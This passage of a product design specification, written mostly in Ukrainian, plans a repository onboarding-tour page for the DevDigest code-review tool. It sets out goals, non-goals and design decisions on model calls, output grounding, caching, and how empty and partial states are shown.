

# Spec: Onboarding Tour

**Spec ID:** SPEC-03
**Status:** approved
**Created:** 2026-08-17
**Approved:** 2026-08-17 — усі 94 критерії та D1…D24, після закриття Q-1…Q-8
**Supersedes:** _Немає._
**Modules:** server, client

## Problem and user

Користувач — розробник, який щойно влився в команду і вперше відкрив незнайомий репозиторій.
Питання, з якими він приходить, ті самі щоразу: де тут що лежить, як воно рухається, як це
запустити, звідки почати читати і за що взятися першим. Сьогодні DevDigest не відповідає на жодне
з них. Він відповідає на «що не так із цим PR», а новачок ще не має PR.

Фактура, якої бракує, при цьому **вже порахована і лежить у базі**. `repo-intel` індексує клон
один раз на клонування: символи, граф імпортів, PageRank-ранг файлу і компактний скелет проєкту
(`server/src/modules/repo-intel/README.md:3-12`). Цей індекс сьогодні читають рівно три речі —
промт рев'ю, Blast Radius і Conventions (`README.md:48-57`), — і жодна з них не показує його
людині. Новачок дивиться на той самий файловий список, що й git.

Розрив між «дані є» і «відповіді немає» цього разу не треба доводити: **сокет уже стоїть
порожній, і його ставили саме під цю фічу**.

- Контракти написані: `Onboarding`, `OnboardingSection`, `OnboardingLink`
  (`server/src/vendor/shared/contracts/knowledge.ts:28-47`).
- Таблиця створена: `onboarding` з `repo_id` первинним ключем, `json` і `generated_at`
  (`server/src/db/schema/context.ts:123-129`). Рядків у ній немає.
- Модель обрана і вона свідомо дешева: `FeatureModelId` `onboarding`, лейбл `Onboarding Tour`,
  опис «Writes the per-repo onboarding tour.», дефолт `openrouter` / `deepseek/deepseek-v4-flash`
  (`contracts/platform.ts:14-50`). Сусідній запис `conventions` прямо посилається на цей рядок як
  на взірець дешевого виклику (`platform.ts:76-79`).
- Дві методи фасаду `repo-intel` написані **під цю сторінку і ні під що інше** — блок так і
  підписаний: `// --- T3: onboarding reading-path + critical paths (graph required) ---`,
  `getTopFilesByRank` і `getCriticatePaths` (`repo-intel/types.ts:213-219`), обидва вже
  реалізовані (`repo-intel/service.ts:678-702`), і споживача не мають.
- Порожній стан і помилка вже перекладені: `client/messages/en/onboarding.json` несе `generate.cta`
  «Generate onboarding tour» і `loadError.title`.
- Пункт навігації вже названо: `"onboarding-tour": "Onboarding Tour"`
  (`client/messages/en/shell.json:19`), і `activeKeyFor` уже мапить шлях на цей ключ
  (`client/src/components/app-shell/helpers.ts:29`).
- **Системний промт написаний цілком** — `server/src/prompts/onboarding.system.md`, 45 рядків,
  перший із яких: «You write a developer onboarding tour for ONE codebase, as structured JSON».
  Він несе шаблонні параметри `{{sections}}` і `{{language}}`, правила заземлення, правила
  mermaid і заборону HTML. Викликачів у нього нуль — це зафіксовано ще
  `plans/05-intent-layer.md:70` («**zero callers** — the loader has never been used») і
  підтверджується сьогодні.

Серверного модуля `onboarding` немає (`server/src/modules/` не містить його, і
`modules/index.ts:2-16` його не реєструє), клієнтського маршруту теж немає
(`client/src/app/repos/[repoId]/` містить `context`, `conventions`, `pulls`), і жоден рядок у
`server/src` не читає й не пише таблицю `onboarding`.

Ця фіча заповнює наявний сокет, а не будує новий. **І це змінює характер роботи:** тут не треба
вигадувати форму — форма вже обрана, у чотирьох місцях незалежно, — треба звірити її з тим, що
просить людина, і назвати кожне розходження. Спека робить саме це (D11, D15), бо мовчазне
прийняття скафолдингу дало б сторінку, узгоджену з заготовкою і не узгоджену із замовленням.

## Goals / Non-goals

**G1.** Одна репо-рівнева сторінка, що дає новачку п'ять відповідей у фіксованому порядку:
архітектура, критичні шляхи, як запустити, порядок читання, перші таски.
**G2.** Кожен шлях, файл, команда і задача в результаті **існує в цьому репозиторії** — перевірено
кодом після виклику моделі, а не попрошено в промті.
**G3.** Рівно **один** структурований виклик моделі на все генерування, у названому бюджеті входу,
і те, що в бюджет не влізло, видно, а не зникає мовчки.
**G4.** Кеш на стан індексу: відкриття сторінки не платить, застарілість видно, генерування —
свідома дія людини.
**G5.** Мітка складності першої таски — **закритий перелік із трьох значень**, а не вільний текст.
**G6.** Порожні й часткові стани кажуть правду: готового індексу немає, індексація впала, мова не
підтримується, конфігів немає, тасок нуль — кожен із цих станів має власний текст, жоден не
добирається вигаданими даними, і жоден не обіцяє того, чого система не може підкріпити (AC-84).
**G7.** Вигляд відповідає макету `specs/assets/SPEC-03-onboarding-tour.png`: п'ять секцій у його
порядку, з його заголовками, з бічною навігацією по секціях і шапкою, що каже, з чого це зібрано.
**G8.** Нова сторінка не плутається з наявним екраном `/onboarding`, і той лишається на місці.

**Non-goals** — межі для планувальника, не побажання:

**N1.** Ручне редагування туру. Макет не показує ані редактора, ані кнопки правки, і жодна
дія на екрані не пише в `onboarding.json` нічого, крім результату генерування.

**N2.** Історія турів. Первинний ключ таблиці — `repo_id`
(`server/src/db/schema/context.ts:124-126`), тобто рядок на репозиторій рівно один. Регенерування
**замінює** запис. Це свідома розбіжність із `SPEC-02`, де запис живе на кожен `head_sha`, і
причина в D8.

**N3.** Другий виклик моделі — зокрема по одному на секцію. Обґрунтування в D3, умова перегляду
названа там же.

**N4.** Переіндексація. Тур **читає** індекс і ніколи його не будує. `POST /repos/:id/resync`
уже існує (`repo-intel/README.md:63`) і кнопкою цієї сторінки не стає: `Regenerate` у макеті
перебудовує тур, а не індекс, і ці дві дії коштують різного.

**N5.** Виконання будь-чого, що тур показує. Команди в секції «Як запустити» — це текст, який
людина копіює й запускає сама. DevDigest їх не запускає, не перевіряє запуском і не пропонує
запустити. Причина в `## Untrusted inputs`, і вона не гігієнічна, а конкретна.

**N6.** Детермінований тур без моделі. Відкинуто в D5, з названою ціною.

**N7.** Розширення фасаду `repo-intel` заради чисел у прозі («used by 14 routes» з макета).
_(Підтверджено 2026-08-17, відповідь на Q-2.)_ Розбіжність із макетом названа в D7, закрита
свідомо в D21 і стережеться AC-43 і AC-78.

**N8.** `mcp/` і `e2e/`. Ані інструмента MCP, ані браузерного сценарію ця фіча не додає. Наявний
`e2e/specs/06-onboarding.flow.json` перевіряє **інший** екран і лишається чинним (G8, AC-8).

**N9.** Зміна промта рев'ю. Тур не потрапляє в жоден прогін і не є контекстом для агента.

**N10.** Семантичний добір файлів — embeddings, pgvector, чанкінг. `SPEC-01` N2 і `SPEC-02` N3
уже це відклали, і ця фіча їх не скасовує. Добір тут ранговий і детермінований.

**N11.** **Публічне посилання на тур — окрема фіча, більша за цю.** _(Рішення людини 2026-08-17,
відповідь на Q-1.)_ `Share link` із макета **у обсязі**, але означає рівно одне: копію поточного
URL у буфер обміну (D17, AC-82). Ані експорту в markdown, ані посилання, яке відкриє тур тому, хто
не має доступу до цього DevDigest.

Записано як межа з причиною, а не як пропуск, щоб наступний читач не шукав, куди воно поділося:
у продукті **немає автентифікації** — ані сесій, ані користувачів, ані анонімного доступу (грep по
`share link` / `shareLink` / `public link` дає нуль збігів поза цією спекою). Тобто публічне
посилання означає завести модель доступу для застосунку, який називає себе local-first, і це
рішення про продукт, а не про цю сторінку.

## Decisions and alternatives

**D1 — Сторінка прив'язана до репозиторію, а не до воркспейсу.** Макет це фіксує двічі:
хлібні крихти `acme/payments-api › Onboarding Tour` і заголовок `Onboarding for payments-api`.
Дані так само репо-рівневі: таблиця `onboarding` ключована `repo_id`
(`schema/context.ts:124`), а весь вхід походить з індексу одного клону. Пункт навігації в
макеті стоїть у групі WORKSPACE між Pull Requests і Project Context — тобто там, де вже стоять
інші репо-рівневі пункти з шаблоном `href: "/repos/:repoId/…"`
(`client/src/vendor/ui/nav.ts:25-38`).

**D2 — Наявний `/onboarding` не чіпаємо, і різницю проговорюємо в спеці, а не лишаємо на
здогад.** `client/src/app/onboarding/page.tsx:1` — це **екран додавання репозиторію**
(`AddRepoView`), глобальний, показується тому, у кого репозиторію ще немає. Нова сторінка —
репо-рівнева, показується тому, у кого репозиторій уже є і вже проіндексований. Тобто вони не
лише різні, а стоять на протилежних кінцях одного шляху: перший екран — «додай репозиторій»,
другий — «ось що в ньому». Плутанина тут дорога, бо обидва звуться «онбординг», і саме тому
G8 і AC-8 роблять збереження старого маршруту **перевірюваною вимогою**, а не припущенням:
його вже стереже браузерний сценарій `e2e/specs/06-onboarding.flow.json`, і він має лишитися
зеленим без правок.

**D3 — Один виклик моделі на всі п'ять секцій.** Це рішення з наслідками, і воно ухвалене, а не
залишене відкритим.

_Причина перша — вхід спільний, і він домінує._ Усі п'ять секцій пишуться з одного набору фактів:
скелет репозиторію, топ-ранговані файли, ланцюги критичних шляхів, конфіги. П'ять викликів
надіслали б цей набір **п'ять разів**, тобто помножили б основну статтю витрат на п'ять заради
виходу, який і в одному виклику вміщується.

_Причина друга, серйозніша — секції мусять бути узгоджені між собою._ Порядок читання має
починатися там, куди критичні шляхи показали вхідну точку; перші таски мають лежати у файлах,
які архітектурна секція щойно назвала. П'ять незалежних викликів узгодженими не бувають за
побудовою, а звести їх постфактум нема чим: підстави обрати одну відповідь проти іншої не існує.

_Прецедент._ `modules/conventions` — виклик того самого класу (дешева модель, читання всього
репозиторію, перевірка результату проти клону після виклику) — робить рівно один виклик із
бюджетом `MAX_SAMPLE_TOKENS = 24_000` (`conventions/constants.ts:63`).

**Відкинуто: по одному виклику на секцію.** Аргумент за нього не порожній, і його треба назвати
чесно, бо він єдиний реальний: менша схема надійніша. Коментар у `contracts/brief.ts` записує,
що під `strict` мала модель тримає стовідсоткову валідність схеми доти, доки схема не обростає
вкладеністю — а `Onboarding` вкладена саме так: масив секцій, у кожній свій масив посилань
(`knowledge.ts:35-46`). Плюс збій схеми в одному виклику коштує всіх п'яти секцій.

Тому рішення супроводжується **названою умовою перегляду і лічильником, який її вимірює**:
AC-52 вимагає записувати кількість фактичних спроб на кожне генерування. Якщо на дефолтній
дешевій моделі спроба ремонту спрацьовує систематично, розбиття переглядають — із зібраних
чисел, а не з припущення. Це та сама дисципліна, якою `SPEC-02` D12 відклав розведення
`risk_brief`.

**D4 — Заземлення тут своє, і гейт рев'ю для нього не годиться за побудовою.**
`groundFindings` (`reviewer-core/src/grounding.ts:3-16`) лишає знахідку тільки тоді, коли її
діапазон рядків перетинає реальний хунк уніфікованого дифу. Тур дифу не має взагалі — він
описує репозиторій, а не зміну, — тож той механізм тут недоступний, а не «не застосований».

Придатний прецедент — `modules/conventions`, і він у цьому репозиторії єдиний: `verifyEvidence`
шукає процитований моделлю фрагмент у файлі, який модель назвала, і **претензія, фрагмент якої в
клоні не знайшовся, до збереженої форми не доходить узагалі** (`conventions/helpers.ts:9,118-155`;
контракт це фіксує в `knowledge.ts:185-192`). Відкинуте лічиться: `snippetNotFound`, `unsampledFile`,
`reanchored` (`helpers.ts:101-108`), і аудит іде в лог маршруту, бо «the audit is the only record
of what grounding threw away» (`conventions/routes.ts:57-60`).

Тур успадковує цю доктрину і застосовує її до чотирьох різних видів претензії — шлях, посилання,
скрипт і задача, — бо перевіряються вони по-різному (AC-37…AC-44).

**D5 — Без моделі туру немає; детермінований «скелет» відкинуто.** Спокуса реальна і дешева:
`getCriticalPaths` і `getTopFilesByRank` — чисті читання індексу
(`repo-intel/service.ts:678-702`), тож секції 2 і 4 можна було б показати без жодного виклику,
голими переліками шляхів.

Відкинуто, і причина не в складності. **Перелік із п'яти шляхів без жодної причини їх читати —
це файлове дерево, яке новачок і так має.** Показаний під заголовком «Onboarding for X», він
відповідає на питання, на яке не відповів, і це рівно той дефект, який людина заборонила прямо:
екран, що виглядає повнішим, ніж він є. Цінність сторінки — у поясненні, а пояснення цілком
походить від моделі.

Тому без налаштованої моделі сторінка показує стан «модель не налаштована» з дорогою до Settings,
а не `500` і не половину туру (AC-63). Прецедент відповіді, а не помилки:
`SPEC-02` AC-42 і `server/INSIGHTS.md:1204-1211`.

**D6 — Ключ стану — `lastIndexedSha` індексу, а не `head_sha` репозиторію.** Тур описує те, що
бачив індексатор, а не те, що лежить на гілці. `getIndexState` віддає `lastIndexedSha`,
`filesIndexed`, `filesSkipped`, `status` і `updatedAt` (`repo-intel/types.ts:34-50`) — це рівно
той набір, з якого будується і шапка макета («Generated from index of 12,450 files · last
refreshed 2h ago»), і позначка застарілості.

Відкинуто: ключ на `head_sha` репозиторію — індекс за головою відстає за власним розкладом, тож
тур позначався б застарілим тоді, коли він насправді точно відповідає тому, з чого його зібрали.
Це та сама пастка, за яку репозиторій уже заплатив один раз у контракті blast
(`contracts/blast.ts` про `link_sha`), і повторювати її тут не варто.

**Наслідок, який спека зобов'язана назвати:** таблиця `onboarding` місця під цей ключ **не має** —
у ній три колонки, і жодна з них не несе sha (`schema/context.ts:123-129`). Тобто запис має
навчитися нести стан індексу, з якого його зібрали. Де саме — колонкою чи полем усередині
`json` — вирішує планувальник; спека вимагає лише того, що це має бути видно (AC-54, AC-56).

**D7 — Жодного числа від моделі. Число на екрані рахує код.** Макет показує в критичних шляхах
рядок `src/middleware/auth.ts — Token validation, used by 14 routes`. Числа «14» узяти нізвідки:
`getCriticalPaths` повертає `Promise<string[][]>` — ланцюги шляхів, без підписів і без лічильників
(`repo-intel/types.ts:219`), а метода «скільки маршрутів використовують цей символ» у фасаді немає.

Лишалося б дозволити моделі його написати — і саме цього репозиторій робити не дає. Доктрина вже
записана в контракті двома реченнями поспіль: `IntentConfidence` «derived deterministically …
**never self-reported by the model**. Small models pin verbal confidence near-constant regardless
of accuracy, so a number from one is not evidence» (`contracts/brief.ts:35-39`), і `SPEC-02` D16
застосував її вдруге.

Тому: **проза туру не містить кількостей** (AC-43), а числа на екрані — лише ті, що їх порахував
код з індексу (кількість проіндексованих файлів, кількість секцій, кількість тасок). Це названа
розбіжність із макетом, а не недогляд. Чи варто розширити фасад `repo-intel`, щоб «used by N
routes» стало **порахованим** числом, — Q-2, і це зміна в чужому модулі, а не тут.

**D8 — Один тур на репозиторій; регенерування замінює.** Так каже первинний ключ
(`schema/context.ts:124-126`), і це правильно для цієї фічі, на відміну від `SPEC-02`. Бриф живе
на кожен `head_sha`, бо його сенс — показати, **як змінювався** намір PR. Тур такого сенсу не
має: ніхто не порівнює онбординг тижневої давнини з сьогоднішнім, а якби порівнював, то дивився
б на диф репозиторію, а не на дві прози. Ціна названа: попереднього туру після регенерування
немає ніде, і скасувати регенерування неможливо (AC-59).

**D9 — Перше генерування — явна дія, не автоматична.** Це свідома розбіжність із `SPEC-02` AC-2,
де відкриття вкладки саме обчислює бриф.

Причина в частоті й у ціні одного відкриття. Бриф стосується одного PR, який відкривають раз, і
без нього сторінка PR неповна. Тур стосується репозиторію: його відкриють один раз на людину і
потім майже ніколи, а генерування читає індекс, десяток файлів і конфіги. Автоматичне обчислення
на відкритті означало б, що кожен, хто випадково клікнув пункт меню, витратив гроші воркспейсу.

Скафолдинг уже описує саме цю поведінку і його не треба вигадувати: `messages/en/onboarding.json`
несе окремий блок `generate` з заголовком, поясненням і CTA «Generate onboarding tour» — тобто
порожній стан із кнопкою, а не спінер. Макет показує **заповнений** стан із `Regenerate`; ці два
не конфліктують, а є двома станами однієї сторінки.

**D10 — Мітка складності — закритий перелік із трьох значень, і контракт її сьогодні виразити не
може.** Людина вимагає «контракт значень, а не вільний текст», і макет показує рівно три бейджі:
`Low complexity`, `Medium complexity`, `Low complexity`.

Наявна форма цього не вміщує. `OnboardingSection` — це `{ kind, title, body (markdown), diagram
(mermaid), links: [{label, path}] }` (`knowledge.ts:35-42`). Задача з міткою складності в неї
влазить лише як текст усередині `body`, а текст усередині markdown — це не перелік значень: його
не можна ні відфільтрувати, ні пофарбувати, ні перевірити, і дві генерації напишуть «medium» і
«Medium» як різні речі.

Тому контракт має здобути структуру для перших тасок, а `complexity` — бути `z.enum` рівно з
трьох значень. Прецедент закритої таксономії в цьому ж файлі і з цим самим обґрунтуванням:
`ConventionCategory` — «The extraction prompt hands the model this list and rejects anything
outside it, so two scans of the same repo group the same way and the UI can filter without
normalising free text» (`knowledge.ts:154-170`).

Наслідок, який спека зобов'язана назвати: зміна контракту дзеркалиться
`server/src/vendor/shared` → `client/src/vendor/shared`, інакше її ловить гейт `shared-sync`
(`AGENTS.md:89-93`).

**D11 — `kind` секції теж закритий перелік, і його п'ять значень — ті, що просить людина.**
Сьогодні `OnboardingSection.kind` — це `z.string()` (`knowledge.ts:36`), тобто модель може
назвати секцію як завгодно. Сторінці цього мало: за `kind` малюється іконка секції, будується
бічна навігація «ON THIS PAGE» і фіксується порядок — усе це в макеті є, і все це на вільному
рядку не тримається.

**Тут же — розбіжність усередині репозиторію, і вона потрійна, а не подвійна.** Про склад
секцій у репо існує **три** незалежні твердження, і жодні два не збігаються:

| Джерело | Що каже | Вага |
|---|---|---|
| Замовлення людини + макет | архітектура · критичні шляхи · як запустити · порядок читання · перші таски | два незалежні джерела, що збігаються між собою |
| `client/messages/en/onboarding.json:10` | «overview, architecture, key modules, getting started, and conventions & gotchas» | скафолдинг, написаний до замовлення |
| `server/src/prompts/onboarding.system.md:7-8,23-26` | називає `architecture` і **`routes_and_apis`** як секції з правом на діаграму | скафолдинг, написаний до замовлення |

Перемагає замовлення: макет і дослівна вимога людини — два незалежні джерела, що збіглися, проти
двох заготовок, зроблених до того, як фічу замовили. Але наслідки треба назвати обидва, бо це
робота, а не спостереження:

1. Рядок `generate.body` у перекладі описує сторінку, якої не буде, і його треба переписати
   разом із фічею (AC-2) — інакше порожній стан обіцяє одне, а кнопка дає інше.
2. Системний промт має параметр `{{sections}}`, тобто склад секцій підставляється при виклику і
   **перепис промта під нову п'ятірку не потрібен** — потрібен правильний аргумент. Але два
   місця в промті називають `routes_and_apis` дослівно (`:7-8` і `:23-26`), і вони стануть
   мертвими інструкціями про секцію, якої в переліку немає. Мертва інструкція в промті — не
   косметика: вона вчить модель, що така секція буває, і саме звідти візьметься шоста секція,
   яку відхилить AC-42.

**AC-42 стереже саме цей випадок,** а не гіпотетичний: `gotchas` і `routes_and_apis` — це не
вигадані приклади невірного `kind`, а два рядки, що вже лежать у репозиторії.

**D12 — Діаграма — не поверхня посилань, і це сказано вголос.** `OnboardingSection.diagram` уже
існує як `z.string().nullish()` з коментарем `// mermaid` (`knowledge.ts:39`), а макет показує
відрендерений граф у секції архітектури.

Вузли на тому графі змішані за природою: `server.ts` і `api/public/*` схожі на шляхи, а `client`,
`middleware`, `redis` і `postgres` — це поняття, а не файли. Заземлювати вузол як шлях означало б
або викидати половину діаграми, або оголосити шляхом те, що ним не є. Тому рішення: **вузли
діаграми не клікабельні і шляхами не називаються** (AC-13). Читач не має права прочитати вузол як
перевірене посилання, бо воно не перевірене; перевірені посилання цієї секції стоять у її тексті
й у `links[]`, де їх видно як посилання.

Відкинуто: заземлювати вузли, схожі на шляхи, і лишати решту як є — тоді на одній діаграмі
половина вузлів веде кудись, половина ні, без жодної видимої різниці, і читач дізнається про це
кліком.

**D13 — Еластичний вхід рівно один — зразки файлів.** Порядок пріоритету від найважливішого:
(1) скелет репозиторію, (2) конфіги, (3) ланцюги критичних шляхів, (4) топ-ранговані зразки
файлів, (5) наявні документи проєкту (`README`, `AGENTS.md`, якщо вони є). Перші три малі й
capped за побудовою; секція «як запустити» без конфігів не існує, а секція «архітектура» без
скелета не існує. Зразки — єдиний вхід, чий обсяг росте з репозиторієм, тож саме вони
стискаються.

Механіка та сама, що вже працює двічі: обхід зупиняється на першому вході, що не влазить, усе
після нього — `dropped`, а перший, що сам більший за залишок, включається обрізаним
(`modules/context/helpers.ts`, і `SPEC-02` D9 по ньому). Відкинуто: пропорційне стискання всіх
входів — результату не передбачить ніхто, хто дивиться на список.

**D14 — Активна секція живе в URL.** Бічна навігація «ON THIS PAGE» з макета дає п'ять якорів.
Стан «на якій я секції» — той, яким діляться: посилання на секцію «Як запустити» має відкривати
її, а не початок сторінки. Правило вже сформульоване як принцип фронтенду цього репозиторію:
стан, яким можна поділитися, живе в URL, а не в `useState`. Готового компонента такої навігації в
клієнті немає — пошук по `on this page` / `toc` / `scrollspy` дає нуль збігів, — тож це нова
робота, а не перевикористання.

**D15 — Наявний системний промт приймається як основа, і те, що він робить промтом, спека
дублює вимогою до коду.** Промт уже містить правила заземлення дослівно: «NEVER invent file
paths, scripts, routes, or dependencies. Use only paths present in the input»
(`onboarding.system.md:16`), і заборону HTML: «Never emit HTML tags, `<script>`, or raw embeds»
(`:39`).

**Це не робить G2 зайвим — це рівно та причина, чому G2 потрібен.** Інструкція в промті —
прохання, а не властивість системи: вона знижує ймовірність і нічого не гарантує, і перевірити
її можна лише подивившись на результат. Репозиторій цю різницю вже проговорив в іншому місці —
`INJECTION_GUARD` «works by stating trusted rules rather than by scanning for suspicious keywords»
і все одно не скасовує потреби в детермінованому гейті після виклику. Тому кожне правило промта,
що має значення, стоїть у цій спеці **вдруге, як вимога до коду**: заземлення шляхів — AC-37,
заборона HTML — AC-68, «invalid diagrams are dropped» (`:29`) — AC-12.

З промта приймаються без змін три кількісні рішення, бо вони вже узгоджені з формою контракту і
переглядати їх нема підстав: до **4** посилань на секцію (`:8`), тіло — 3-6 щільних абзаців або
компактний список (`:6-7`), діаграма — лише для секції архітектури (`:7-8`, з поправкою на нову
п'ятірку: `routes_and_apis` у ній немає — D11).

**D16 — Індекс бачить лише TS/JS, і конфіги в нього не входять зовсім. Тур бере їх іншим
шляхом.** Це найважливіший факт про вхід, і він не очевидний із назви «індекс репозиторію».

`SUPPORTED_EXT` — рівно шість розширень: `.ts`, `.tsx`, `.js`, `.jsx`, `.mjs`, `.cjs`
(`repo-intel/constants.ts:14`), і фільтр стоїть на обході файлів, тобто все інше не потрапляє
ані в `symbols`, ані в `references`, ані в `file_edges`, ані в `file_rank`. `package.json`,
`docker-compose.yml`, `.env.example`, `Makefile` індекс **не бачить узагалі**.

Наслідки, кожен із яких стає вимогою:

- **Секція «Як запустити» не може живитися з індексу.** Конфіги читаються окремо, за явним
  переліком шляхів, через `GitClient.readFile` — точно так, як це вже робить `conventions`
  зі своїм `CONFIG_PATHS` (`conventions/constants.ts:9-27`). Це наявний прецедент цілком, разом
  із поясненням, навіщо конфіги читають першими.
- **Репозиторій не на TS/JS дає порожній індекс, а не бідний.** Граф порожній, рангів немає,
  критичні шляхи повертають `[]`. Тур над ним був би прозою про архітектуру, зібраною з нічого
  — тобто рівно тим, що забороняє G2. Звідси AC-73.
- **`GitClient.readFile` — це порт, і межа байтів у ньому обов'язкова** (`vendor/shared/adapters.ts`).
  Сам `repo-intel` цим портом не користується: його пайплайн ходить у клон напряму через
  `node:fs`. Тур цей шлях не наслідує — сервіс не має права торкатися `node:fs`.

### Рішення за відповідями людини, 2026-08-17

_Сім питань першої редакції закриті. Чотири закрила людина (Q-1, Q-4, Q-6, Q-7), три —
координатор (Q-2, Q-3, Q-5). Нижче кожне з них як рішення з автором; таблиця відкритих питань
більше їх не тримає — питання, що лишилося в ній після відповіді, читається як невирішене._

**D17 — `Share link` копіює поточний URL у буфер обміну.** _(Людина, Q-1.)_ Кнопка з макета
лишається на місці й отримує найдешевше з можливих значень: рівно те, що зараз в адресному рядку.
Разом із AC-5 це виходить корисніше, ніж звучить: URL уже несе активну секцію, тож «поділитися»
з секції «Як запустити» дає посилання саме на неї, а не на початок сторінки. Тому спека вимагає
копіювати URL **із якорем секції**, а не корінь сторінки (AC-82).

Готового компонента копіювання в клієнті немає — сьогодні це чотири окремі інлайнові виклики
`navigator.clipboard?.writeText`, — тож контрол копіювання команди (AC-20) і `Share link` (AC-82)
є двома споживачами однієї поведінки. Відкинуте — в N11.

**D18 — Секція «Як запустити» показує всі пакети, згруповано, кожен зі своїм менеджером.**
_(Людина, Q-4.)_ Не кореневий пакет і не один блок команд: блок на кожен знайдений пакет, і в
кожному блоці той менеджер, яким цей пакет справді керується.

**Причина не гіпотетична — цей репозиторій сам є контрприкладом.** `AGENTS.md:32` каже прямо:
`server/` і `client/` — **pnpm**; `reviewer-core/`, `e2e/` і `mcp/` — **npm**; «Do not mix». Тобто
найправдоподібніша відповідь моделі — «pnpm install у корені» — для DevDigest просто неправильна,
і вона неправильна тихо: команда виглядає розумно, виконується без помилки і ставить залежності
не туди. Модель, яка бачить кілька `package.json` і один звичний менеджер, згенерує саме її.

Тому заземлення цієї секції **двоскладове**, і це найсильніша вимога фічі: перевіряється не лише
що скрипт існує в названому `package.json` (AC-23), а й що названий менеджер — той, який цей пакет
справді використовує, за лок-файлом поруч із цим `package.json` (AC-25). Перша перевірка без
другої пропускає рівно ту помилку, яка тут найімовірніша.

Це найгостріша секція фічі, і причина проста: її результат людина **копіює й виконує**. Решта
туру помиляється текстом, ця — дією.

**D19 — Репозиторій поза TS/JS отримує чесну відмову, і причина відмови називається окремо від
двох інших.** _(Людина, Q-6.)_ Часткового туру не будуємо, `SUPPORTED_EXT` не розширюємо.

**Наслідок, який людина зробила обов'язковим, а не бажаним:** якщо відмова — це єдина поведінка
для цілого класу репозиторіїв, то три причини відмови мусять бути **розрізнюваними**, бо дії
читача різні, і третя ще й остаточна:

| Причина | Що читачеві робити |
|---|---|
| готового індексу немає | чекати або запустити індексацію |
| індексація завершилася невдало | подивитися, чому, і повторити |
| мова не підтримується | **нічого; чекання не допоможе ніколи** |

І тут спека мусить чесно тримати те, що вже знайшла в D16: **стану «будується» в контракті індексу
немає.** `IndexStatus` — це `full` | `partial` | `degraded` | `failed` (`repo-intel/types.ts:25`),
тож «щойно почалося» і «ніколи не починалося» з нього не розрізняються. Отже текст першої причини
не має права обіцяти, що чекання допоможе, доки цей стан не існує — він може сказати лише, що
готового індексу немає. Різниця між «зачекайте, скоро» і «індексу немає» тут не стилістична:
перше — обіцянка, якої система не може підкріпити. Звідси AC-83 і AC-84.

**D20 — Вміст туру українською; інтерфейс лишається англійським.** _(Людина, Q-7.)_ Параметр
`{{language}}` промта (`onboarding.system.md:42`) **фіксується в коді**, а не береться з локалі
клієнта. Причина механічна: локаль, що потрапляє в ключ генерування, помножила б кеш — один тур на
репозиторій (D8) перестав би бути одним.

**Сторінка двомовна свідомо, і межа проходить по джерелу рядка, а не по його місцю на екрані:**

| Англійською, з `messages/en/*.json` | Українською, від моделі |
|---|---|
| заголовки п'яти секцій і підписи бічної навігації | проза кожної секції |
| бейджі складності (`Low` / `Medium` / `High complexity`) | описи файлів у критичних шляхах і в порядку читання |
| кнопки, порожні стани, тексти помилок | формулювання перших тасок |

Наслідок для контракту, який інакше пройшов би непоміченим: `OnboardingSection.title` приходить
від моделі (`knowledge.ts:37`), але заголовок секції — це UI. Тобто **`title` від моделі на екран
не виводиться**: заголовок малюється за `kind` із `messages/en`. Це названо в AC-85, щоб поле не
здалося втраченим і щоб ніхто не показав його «щоб не пропадало» — інакше на сторінці буде два
заголовки однієї секції двома мовами.

Не перекладаються ніколи: шляхи, ідентифікатори, назви пакетів, скрипти, змінні середовища,
шаблони маршрутів (AC-76) — і це вимога заземлення, а не читабельності.

**D21 — Числа з макета в критичних шляхах не будуємо; фасад `repo-intel` не розширюємо.**
_(Координатор, Q-2.)_ Рядок критичного шляху несе шлях і опис — без «used by 14 routes».

Причина доктринальна, а не бюджетна, і вона вже двічі записана в цьому репозиторії:
`IntentConfidence` каже, що число «never self-reported by the model … a number from one is not
evidence» (`contracts/brief.ts:35-39`), а `SPEC-02` D16 застосував це вдруге. Порахувати ж його
нема з чого: `getCriticalPaths` віддає `string[][]` без лічильників
(`repo-intel/types.ts:219`). Тобто варіанти рівно два — вигадане число або зміна чужого модуля,
— і обидва відкинуті. Розходження з макетом закрите свідомо; стережуть AC-43 і AC-78.

**D22 — Автоперегенерування немає; генерування лишається натисканням.** _(Координатор, Q-5.)_
Застарілість видно в шапці (AC-56) і вона нічого не запускає. Ціна названа: тур може стояти
застарілим скільки завгодно довго, і це вибір на користь передбачуваної витрати. Якби індекс
тягнув за собою генерування, кожен `resync` витрачав би гроші воркспейсу без чийогось рішення, а
межа частоти 6/хв перестала б описувати найгірший випадок — рівно та причина, з якої `SPEC-02`
мусив підняти свою до 20/хв.

**D23 — Стелі вибірки стартові й вимірювані, а не остаточні.** _(Координатор, Q-3.)_ Спека
називає стартові значення, прив'язує їх до бюджету входу за названим лічильником і вимагає, щоб
зрізане було видно — замість вдавати, що «правильне» число відоме наперед.

Стартові: **20** файлів-зразків, **6 000** символів на файл, усе разом у **24 000 токенів** входу
